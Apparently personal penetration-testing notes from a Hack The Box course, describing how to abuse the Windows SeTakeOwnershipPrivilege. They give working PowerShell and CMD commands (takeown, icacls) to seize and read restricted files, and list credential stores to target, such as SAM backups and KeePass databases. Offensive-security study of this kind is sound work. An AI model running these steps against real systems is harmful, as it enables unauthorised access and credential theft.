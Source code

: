 ### Technique Name:

SeTakeOwnershipPrivilege
### Summary:

`SeTakeOwnershipPrivilege` allows a user to take ownership of securable objects such as files, folders, registry keys, services, and Active Directory objects, regardless of the object's current permissions. Once ownership is taken, the user can grant themselves full control over the object using tools like `icacls`. This can be leveraged to access restricted files containing credentials, configuration, or sensitive business logic, which can help in privilege escalation or lateral movement.
### Conditions:

- User has the `SeTakeOwnershipPrivilege` assigned (can be enabled if disabled)
- Requires access to local PowerShell or CMD
- Potentially needs a file target with sensitive information but restricted permissions
- Target object must be modifiable via ownership change (e.g., not in use or protected by AV)
### Enumeration:

```powershell
# Check if the current user has the privilege
whoami /priv

# Check ownership of a target file or directory
Get-ChildItem -Path 'C:\Path\To\Target.txt' | Select Name, @{Name="Owner";Expression={(Get-Acl $_.FullName).Owner}}

# View ownership using legacy CMD (can show inaccessible owner info)
cmd /c dir /q "C:\Path\To\TargetDirectory"
```
### Exploitation:

```powershell
# 1. Enable the privilege if not already active (requires helper script)
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1

# 2. Take ownership of the target file
takeown /f "C:\Path\To\Target.txt"

# 3. Verify new ownership
Get-Acl "C:\Path\To\Target.txt" | Format-List Owner

# 4. Grant full control to your user
icacls "C:\Path\To\Target.txt" /grant htb-student:F

# 5. Read the file contents
cat "C:\Path\To\Target.txt"
```
### Post-Exploitation:

* Extract sensitive data (e.g., credentials from `cred.txt`, `web.config`, `.kdbx`, etc.)
* Use credentials for lateral movement or privilege escalation
* Document object access and ownership changes carefully
* Restore original ownership and permissions if possible (or alert client)
* Refrain from modifying production or service-critical files unless permitted
#### Files of Interest:

- `c:\inetpub\wwwroot\web.config`
- `%WINDIR%\repair\sam`
- `%WINDIR%\system32\config\security.sav`
- KeePass DBs (`*.kdbx`), config files, OneNote, or any creds/notes/scripts folders
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #User_Privs